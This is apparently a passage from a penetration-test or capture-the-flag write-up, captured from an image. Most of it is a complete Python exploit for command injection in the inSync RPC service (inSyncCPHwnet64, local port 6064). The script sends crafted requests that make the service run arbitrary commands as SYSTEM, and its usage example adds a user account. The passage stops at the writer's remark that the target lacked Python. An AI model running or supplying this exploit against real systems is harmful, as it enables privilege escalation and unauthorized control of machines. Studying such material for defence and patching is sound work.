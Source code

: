 ```python
import socket
import struct
import sys

# Command injection in inSyncCPHwnet64 RPC service
# Runs as nt authority\system. so we have a local privilege escalation

if len(sys.argv) < 2:
    print "Usage: " + __file__ + " <quoted command to execute>"
    print "E.g. " + __file__ + " \"net user /add tenable\""
    sys.exit(0)

ip = '127.0.0.1'
port = 6064
command_line = sys.argv[1]

# command gets passed to CreateProcessW
def make_wide(str):
    new_str = ''
    for c in str:
        new_str += c
        new_str += '\x00'
    return new_str

hello = "inSync PHC RPCW[v0002]"
func_num = "\x05\x00\x00\x00"      # 05 is to run a command
command_line = make_wide(command_line)
command_length = struct.pack('<i', len(command_line))

# send each request separately
requests = [ hello, func_num, command_length, command_line ]

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((ip, port))

i = 1
for req in requests:
    print 'Sending request' + str(i)
    sock.send(req)
    i += 1

sock.close()

print "Done."
```

The 2nd problem was there was no Python on the system. I tried to transfer manually from my machine to the target but it also didn't work. Until, I saw this:
